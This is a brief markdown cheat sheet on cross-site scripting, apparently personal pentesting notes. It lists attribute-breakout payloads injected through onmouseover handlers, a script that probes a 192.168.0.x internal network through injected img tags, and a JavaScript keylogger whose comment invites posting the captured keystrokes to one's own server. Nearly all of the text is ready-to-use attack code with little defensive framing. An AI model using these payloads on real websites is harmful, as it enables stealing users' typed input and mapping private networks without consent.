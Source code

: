 # XSS


```
Reflective XSS
```

To get the client ip address with xss can use

```
window.location.hostname
```

```
DOM Based XSS
```

Break out of img src and then insert code as mouseover event:

```
test" onmouseover="document.body.style.backgroundColor = 'red'
```

```
test" onmouseover="alert('Hello')
```

```
IP and port scanning
```

Script which can be used to complete port scanning on a network with xss vulnerability

```
<script>
for (let i = 0; i < 256; i++) {
  let ip = '192.168.0.' + i

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code
}
</script> 
```

```
Keylogger
```

Javascript can even be used for keylogging with the example script

```
 <script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

